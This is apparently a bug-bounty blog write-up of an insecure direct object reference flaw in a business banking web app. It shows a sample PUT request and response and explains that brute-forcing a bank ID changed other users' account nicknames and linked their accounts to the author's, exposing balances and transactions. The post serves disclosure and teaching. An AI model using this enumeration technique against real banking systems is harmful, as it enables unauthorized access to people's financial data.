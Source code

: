 ```yaml
---
title: "Insecure Direct Object References (IDOR) Exploit Enables Unauthorized Access to Linked Bank Accounts"
layout: post
date: 2022-10-10 12:00
categories: blog
---
```


Exploiting an Insecure Direct Object References (IDOR) vulnerability to gain control over other users' linked bank accounts.

![preview](/assets/images/blogs/IDOR/access-control.svg)

## Target Information
The target is a web application designed to facilitate invoice tracking, bill payment, and other transactions for organizations. It functions as a business banking application.

## Reconnaissance
Upon examining the application's features, it was determined that the application is susceptible to an Insecure Direct Object References (IDOR) vulnerability. The vulnerability arises due to the application's reliance on user-provided input in the URL and JSON objects within the request body to perform actions on its APIs.

## Exploitation
Several endpoints were exploited to gain unauthorized access to other organizations' users' invoices, transaction details, and bills.

A noteworthy feature of the application allows users to link their bank accounts within the application. Upon merging accounts, the application generates a virtual bank account, such as the "ABC Virtual Bank Account" from "ABC Internet Bank."

To facilitate easy identification of bank account details, the application offers a feature allowing users to rename their accounts with nicknames. The following request demonstrates this functionality:

## Request
```http
PUT /connected_banking/12345 HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
	"bankid": 12345,
	"account_nickname": "thevillagehacker",
	"account_id": 1111,
	"company_id": 0000
}
```

## Response
```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
	"abc_account_id": 12345,
	"account_nickname": "thevillagehacker",
	"account_id": 1111,
	"company_id": 0000,
	"current_balance": 10000.00
}
```
The above request illustrates that the application utilizes the bank ID from the URL and the JSON object in the request body. By brute-forcing the `bankid`, I was able to change the nicknames of other users' bank accounts.

The IDOR vulnerability did not end there. Whenever I modified the nickname of users' bank accounts, those accounts became linked to my "ABC Virtual Bank Account." Consequently, I gained access to the bank account details, balances, transactions, and other information of these users.

Thank you for reading.

Follow me on Twitter: [thevillagehacker](https://twitter.com/thevillagehackr)